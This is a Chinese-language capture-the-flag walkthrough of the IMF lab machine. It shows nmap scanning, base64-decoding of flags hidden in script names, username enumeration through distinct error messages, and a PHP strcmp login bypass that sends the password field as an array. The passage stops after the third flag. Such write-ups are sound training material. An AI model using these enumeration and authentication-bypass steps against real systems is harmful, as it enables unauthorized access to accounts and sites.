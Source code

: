 1、nmap 10.211.55.0/24 -sP
MAC Address: 00:1C:42:AF:B0:BB (Parallels)
Nmap scan report for 10.211.55.36

2、nmap 10.211.55.36
80/tcp open  http


3、curl http://10.211.55.36/contact.php
发现flag1：

allthefiles


4、发现flag2
        <script src="js/ZmxhZzJ7YVcxbVl.js"></script>
        <script src="js/XUnRhVzVwYzNS.js"></script>
        <script src="js/eVlYUnZjZz09fQ==.min.js"></script>

ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==

echo 'ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==' | base64 -d                          
flag2{aW1mYWRtaW5pc3RyYXRvcg==} 
imfadministrator

5、访问：http://10.211.55.36/imfadministrator/
登录页面，尝试curl http://10.211.55.36/imfadministrator/
!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger --

type="text" name="user"
type="password" name="pass"

无效的用户名，没信息了，回到最初页面看看contact us里还有啥信息

6、访问http://10.211.55.36/imfadministrator/
发现邮箱信息：
rmichaels@imf.local
akeith@imf.local
estone@imf.local
三个用户信息！这里有三个用户：rmichaels、akeith、estone

7、burpsuite测试用户名有效性
测试akeith、estone时候回显：Invalid username  （无效的用户名）
测试rmichaels回显：Invalid password（无效的密码）
找到了正确的用户名！

参考php strcmp比较字符串绕过：字符串和数组进行比较
http://www.atkx.top/2020/11/04/代码审计之弱类型绕过/

字符串转换为数组：
我将字段名称更新pass为pass[]，这意味着PHP将把这个字段解释为一个数组，而不是一个字符串。这有时会混淆验证字符串检查，如果输入是数组strcmp则会返回NULL！

pass[]   获得信息：
flag3{Y29udGludWVUT2Ntcw==}
Welcome, rmichaels
IMF CMS

获得flag3信息，解码：continueTOcms
发现这是IMF的CMS框架站！
